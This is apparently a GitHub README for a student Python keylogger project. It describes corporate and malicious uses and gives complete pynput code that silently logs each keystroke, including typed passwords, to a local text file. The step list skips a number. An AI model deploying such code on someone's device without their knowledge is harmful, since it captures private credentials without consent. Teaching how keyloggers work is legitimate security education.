 # Keylogger Project
Keylogger Project using Python

A Keylogger is used within cybersecurity as a way to keep track and record the keystrokes as a user types. This is beneficial especially for companies as companies can easily track down and monitor any malicious or deviant acts within their system; a keylogger can also be set up so it is silently active in which the user does not know their keystrokes are being tracked.
<br>
#
```python
with open ("keyfile.txt",'a') as logKey:
    try:
        char = key.char
        logKey.write(char)
```
 #
<br>
Using the term "with open("keyfile.txt",'a') as logKey" allows an external text file to be made which will keep a live record of the keystrokes in which a user enters. This is really helpful in tackling a users actions if there were some sort of bad act in a business for example; a business can directly see the input of the user and work on a patch to make sure that their system cannot be compromised again.
<br>
<br>

![Screenshot 2024-01-27 184843](https://github.com/mholtz15/Keylogger-Project/assets/157908872/347d2b54-3657-41dc-ba7b-f22d356e4b61)

<br>
As shown above, this is the text file in which is created as soon as the Keylogger is active. The file contains the exact keystrokes. However, this can be used maliciously; since a Keylogger can be inputted onto a device undetectably (if a user does not have the latest of software protection updates) malicious actors can expose this application. For example, if a user logs into one of their accounts, the Keylogger will mirror their username and password into a textfile in which can be abused by a malicious actor to get a users personal information.
<br>
<br>
<ins>How to create a Keylogger</ins> <br>
1. Open a text file using pynput (for my project I used Visual Studio Code) otherwise the code will not run as intended <br>
2. Copy the code below: <br>

#

```python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt",'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Erro getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input() 
```
#
<br>
4. Run the code and make sure a text file is created when a user inputs their keystrokes. <br>
<br>
NOTE: If the code does not run, please double check that all commas, speech marks, colons etc are in the correct place and there is no more than needed to be as small errors such as this can equal into the code failing.
